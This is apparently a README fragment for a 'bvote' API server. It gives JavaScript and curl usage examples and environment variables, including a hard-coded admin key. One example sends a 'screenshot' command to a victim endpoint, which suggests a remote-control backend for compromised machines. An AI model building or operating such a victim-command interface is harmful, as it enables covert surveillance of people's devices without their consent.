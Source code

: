 ```javascript
const { data } = await sessionResponse.json();
console.log('Session started:', data.sessionId);
```

### Victim Command Example
```javascript
// Send screenshot command
const commandResponse = await fetch('/api/victims/victim-001/commands', {
  method: 'POST',
  headers: {
    'Authorization': `Bearer ${token}`,
    'Content-Type': 'application/json'
  },
  body: JSON.stringify({
    command: 'screenshot',
    params: {
      fullscreen: true,
      quality: 80
    }
  })
});

const result = await commandResponse.json();
console.log('Command sent:', result.data.commandId);
```

---

## 🛠️ Development

### Testing API
```bash
# Health check
curl http://localhost:3000/health

# Login
curl -X POST http://localhost:3000/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"email":"user@bvote.com","password":"password123"}'

# Get user info
curl http://localhost:3000/api/auth/me \
  -H "Authorization: Bearer <token>"
```

### Environment Variables
```env
NODE_ENV=development
PORT=3000
JWT_SECRET=your-jwt-secret
ENCRYPTION_KEY=your-encryption-key
ADMIN_KEY=WEBBVOTE2025$ABC
DATABASE_URL=sqlite:./data/bvote.db
```

---